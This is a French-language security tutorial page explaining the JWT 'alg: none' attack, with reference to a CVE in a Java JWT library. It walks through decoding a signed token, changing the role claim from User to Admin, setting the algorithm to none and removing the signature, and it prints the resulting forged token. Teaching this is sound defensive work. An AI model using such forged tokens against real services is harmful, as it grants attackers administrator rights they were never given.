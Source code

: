 # JWS - "Alg: None" Attack

Cette attaque consiste à faire passer un jeton signé pour un jeton non signé afin de pouvoir en modifier son contenu. Par exemple, voici un jeton légitime signé reçu par l'attaquant :

```text
eyJhbGciOiJSUzI1NiIsICJ0eXAiOiJKV1QifQ.eyJuYW1lIjoiU2hhcnBmb3JjZSIsInJvbGUiOiJVc2VyIn0.qo2Pr1Fo5c_HeItw85G8Tu8qWdQeIiB-HfPaWs-s2Wk
```

Son entête est le suivant \(après décodage Base64URL\) :

`{  
  "alg":"RS256",  
  "typ":"JWT"  
}`

Ainsi que la payload :

`{  
  "name":"Sharpforce",  
  "role":"User"  
}`

Ce jeton peut être modifié afin, par exemple, de s'octroyer les droits administrateur. Pour cela il suffit de modifier la payload comme ceci :

`{  
  "name":"Sharpforce",  
  "role":"Admin"  
}`

Le problème est que le service consommateur n'acceptera jamais ce jeton, car la signature n'est pas valide. Alors l'attaquant va simplement indiquer que le jeton n'est pas signé et supprimer la signature :

`{  
  "alg":"none",  
  "typ":"JWT"  
}`

`{  
  "name":"Sharpforce",  
  "role":"Admin"  
}`

Une fois encodé le jeton falsifié qui sera envoyé au service consommateur sera le suivant :

```text
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJuYW1lIjoiU2hhcnBmb3JjZSIsInJvbGUiOiJBZG1pbiJ9.
```

Le jeton pourra ainsi être considéré comme légitime et donc accepté par le service.

Cette attaque se retrouve par exemple dans la librairie `prime-jwt` dans les version &lt;= 1.30. La CVE correspondante est détaillée ici :

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2018-1000531" %}




